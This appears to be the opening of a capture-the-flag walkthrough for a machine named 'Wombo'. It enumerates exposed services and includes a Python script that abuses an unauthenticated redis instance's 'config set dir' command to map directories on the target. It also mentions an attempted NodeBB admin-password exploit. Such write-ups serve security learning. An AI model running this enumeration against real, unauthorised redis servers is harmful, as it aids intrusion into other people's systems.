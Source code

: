 # Wombo
### Enumeration
We have access to ports 22, 80, 6379, 8080 and 27017. 80 is an nginx default webserver. 8080 is a NodeBB instance. 6379 is a redis instance that is open to unauthenticated users. 27017 is a mongo instance.

Initially I tried creating a user on NodeBB and using an exploit that is supposed to change the admin password. I couldn't seem to login though (may return to this).

Next, I had a look at redis. It's possible to enumerate directories on the machine using the redis command `config set dir <PATH>`. The response is different depending on whether the directory exists or not. I used the below script to enumerate `/var/www` and found `/var/www/html`.

```python
"""
For enumerating directories via redis
"""
import argparse
import socket
import sys

def run(host: str, port: int, wordlist_filename: str, prefix: str):
    with open(wordlist_filename, 'r') as f:
        wordlist = f.read().split('\n')

	for word in wordlist:
		with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as redis_socket:
			redis_socket.connect((host, port))
			redis_socket.sendall(f"config set dir {prefix}/{word}\n".encode())
			response = redis_socket.recv(1024)
			
			if response == b'+OK\r\n':
				print(f"found directory {prefix}/{word}")


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--wordlist", required=True)
    parser.add_argument("--host", required=True)
    parser.add_argument("--prefix", required=True)
    parser.add_argument("--port", type=int, default=6379, required=False)
    args = parser.parse_args()
    run(args.host, args.port, args.wordlist, args.prefix)
```